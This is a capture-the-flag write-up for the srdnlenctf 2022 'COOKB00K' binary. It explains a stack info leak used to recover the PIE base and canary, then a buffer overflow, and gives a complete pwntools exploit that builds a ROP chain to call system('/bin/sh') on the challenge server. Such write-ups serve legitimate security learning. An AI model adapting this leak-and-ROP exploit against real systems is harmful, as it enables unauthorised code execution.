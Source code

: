 # srdnlenctf 2022

## COOKB00K (X solves)

I coded this program to keep in order my delicious recipes.
During development, I was having fun with function pointers when I started seeing some weird artifacts appearing on my screen!
Can you please check if there is any security issue in my software?

This binary is a recipe manager for top notch chiefs only.
It is provided with 6 unique operations available to the end-user:

- 1. View recipes list
- 2. Add recipe
- 3. Remove recipe
- 4. Edit recipe
- 5. View recipe
- 6. Quit

The binary is compiled for 64-bit machines with the following security enhancements enabled: Full RELRO, No Execute, Canary and PIE.

The main (intended) issues of this program are described with comments alongside the vulnerable functions and elements inside the [code.c](/pwn_cookb00k/src/code.c) file.

### Solution

The exploitation starts from leaking the PIE generated base address.
It is possible to leak an internal program function pointer of the 6 end-user operations (&view_recipes) by using the vulnerability described at line 104 of [code.c](/pwn_cookb00k/src/code.c#L104): by not having the NULL string terminator on the local char[8] variable it is possible to read data (input will be considered as invalid index value and printed) from the stack ([main function](/pwn_cookb00k/src/code.c#L381) stack frame, storing a pointer next to the buffer).
Once retrieved the view_recipes address, we can subtract its offset in the binary to it and get the PIE base address of this execution for later use (calculate other functions and plt addresses we'll need later).

We then leak the canary by using the same vulnerability, but this time, from one of the end-user operations: [view_recipe](/pwn_cookb00k/src/code.c#L231).
In this case we will be overwriting the last byte of the canary (which is always 0x00). By doing so, it is possible to read the whole canary and other data next to it. We then restore the original last 0x00 byte of the canary to avoid stack smashing detection.

The last step of the exploitation is about taking the control of the execution flow and getting a reverse shell. We'll get it with the vulnerability explained at line 27 of [code.c](/pwn_cookb00k/src/code.c#L27).
The vulnerable function is used in the [load_ingredients function](/pwn_cookb00k/src/code.c#L160), which is called by two of the end-user operations: [add_recipe](/pwn_cookb00k/src/code.c#L245) & [edit_recipe](/pwn_cookb00k/src/code.c#L302).
We basically can overflow the load_ingredients' stackframe and reach the return address with some padding.
We start the actual ROP payload with a "ret;" gadget to allign the stack pointer, we then append a "pop rdi; ret;" gadget which can be found in the executable and load a pointer to a "/bin/sh\x00" string into RDI (first parameter of a call in amd64 linux calling convention); after this we just need to call the system function (used in the executable) which can be found in the PLT. By chaining and sending this payload a shell will pop on our screen. The flag will be located at ./flag.txt.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./cookb00k')

host = args.HOST or 'cookb00k.challs.srdnlen.it'
port = int(args.PORT or 10350)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
b *main
b *load_ingredients
b *load_ingredients+480
c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()


def bof(payload):
    io.sendline(b'2')               # add recipe
    io.sendline(b'just a name')     # name
    io.sendline(b'1')               # difficulty
    io.sendline(b'1')               # rating
    io.sendline(b'1')               # cooking time
    io.sendline(b'1')               # salt amount
    # fill the linked list and overflow the local buffer
    io.sendline(b'a'*511)           # ingredient #1 (padding)
    io.sendline(b'a'*511)           # ingredient #2 (padding)
    io.sendline(b'a'*7)             # ingredient #3 (padding)
    io.sendline(canary + payload)   # ingredient #4 [buffer overflowing starts here]
    io.sendline(b'')                # stop adding ingredients


def leak_canary():
    global canary

    io.sendline(b'5')                 # view recipe
    io.sendline(b'a'*8)               # padding to overflow the canary 0x00 byte and not get NULL terminated on print
    io.recvuntil(b'You provided an invalid index value:\n0'+b'a'*8)
    leak = io.recvline()
    leak = bytes([0]) + leak          # add the NULL terminating 0x00 to the canary we have previously overwritten
    canary = bytes(leak[:8])          # take canary only
    print('leaked canary:', hex(int.from_bytes(canary, 'little')))
    io.sendline(b'a'*7+b'\x00')       # put the NULL terminating 0x00 of the canary back to its place to avoid stack smashing detection
    io.sendline(b'1')                 # recipe #1 and keep going
    io.recvrepeat(timeout=.5)         # clean receive buffer


def leak_pie():
    io.sendline(b'a'*7)               # only 7 padding bytes needed
    io.recvuntil(b'You provided an invalid index value:\n0'+b'a'*7)
    leak = io.recvline()
    func_addr = int.from_bytes(leak[:6], 'little')
    print('leaked view_recipes function address:', hex(func_addr))
    pie = func_addr - 0x1BCF          # subtract offset of function we got the pointer to (view_recipes) to get module base address
    print('pie base address:', hex(pie))
    exe.address = pie
    io.recvrepeat(timeout=.5)         # clean receive buffer


leak_pie()
leak_canary()

rop = ROP(exe)

bin_sh = next(exe.search(b'/bin/sh\0'))
system_func = exe.symbols['plt.system']

rop.raw(b'a'*24)                    # padding
rop.raw(p64(rop.ret.address))       # ret; gadget
rop.raw(p64(rop.rdi.address))       # pop rdi; ret; gadget
rop.raw(p64(bin_sh))                # put ptr to "/bin/sh\0" string on the stack
rop.raw(p64(system_func))           # call system() with "/bin/sh\0" as parameter to get shell

bof(rop.chain())

io.sendline(b'ls')
io.sendline(b'cat flag.txt')


io.interactive()

```
